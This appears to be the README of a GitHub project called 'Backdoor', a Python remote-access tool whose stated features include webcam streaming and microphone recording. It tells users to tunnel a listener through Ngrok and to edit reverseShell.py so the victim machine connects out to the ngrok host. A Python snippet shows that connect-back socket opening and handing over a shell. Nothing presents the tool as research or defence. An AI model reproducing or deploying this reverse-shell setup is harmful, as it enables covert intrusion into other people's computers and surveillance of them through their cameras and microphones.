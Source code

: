 # Backdoor

Creating a complete Backdoor using Python..
Fonctionalities:
  -Webcam streaming 
  -Microphone recording 
  -


## Installation

Use the package manager [pip](https://pip.pypa.io/en/stable/) to install missing modules.

```bash
pip install -r requirements.txt
```

## Usage
use [Ngrok](https://ngrok.com/) to exposes local server behind NATs and firewalls to the public internet over secure tunnels.
```bash
ngrok tcp 9001
```
change the reverseShell.py [code](https://github.com/msamyy/roodkcab/blob/cb93eade83a6c29268dc9d7577dd68a089d3223c/rs/reverseShell.py#L355) so it contains the address and the port generated by Ngrok, for example:
```python
sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
# connection()
sock.connect(("8.tcp.ngrok.io", 17655))  # ngrok tcp 9001
print("connected")
shell()
```

## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License
[MIT](https://choosealicense.com/licenses/mit/)
